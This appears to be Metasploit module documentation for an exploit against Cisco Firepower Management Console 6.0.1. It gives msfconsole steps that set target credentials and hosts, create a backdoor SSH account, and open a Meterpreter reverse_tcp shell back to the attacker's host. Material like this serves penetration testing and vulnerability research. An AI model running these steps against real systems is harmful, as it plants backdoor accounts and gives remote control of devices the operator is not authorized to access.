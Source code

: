 This module exploits a vulnerability in Cisco Firepower Management Console RCE. It will
create a backdoor SSH account via HTTPS, and then obtain a native payload session
in SSH.

## Vulnerable Application

This exploit was specifically written against 6.0.1 (build 1213). To test, you can find the
virtual appliance here:

https://software.cisco.com/download/release.html?mdfid=286259687&softwareid=286271056&release=6.0.1&flowid=54052



## Verification Steps

1. Start msfconsole
2. ```use exploit/linux/http/cisco_firepower_useradd```
3. ```set password [https console password for admin]```
4. ```set rhost [IP]```
5. ```set payload linux/x86/meterpreter/reverse_tcp```
6. ```set lhost [IP]```
7. ```exploit```
8. You should get a session

## Options

*USERNAME* The username for Cisco Firepower Management console

*Password* The password for Cisco Firepower Management cosnole

*NEWSSHUSER* The SSH account to create. By default, this is random.

*NEWSSHPASS* The SSH password for the new account. By default, this is also random.

*SSHPORT* In case for some reason, the SSH changed, otherwise this is 22 by default.
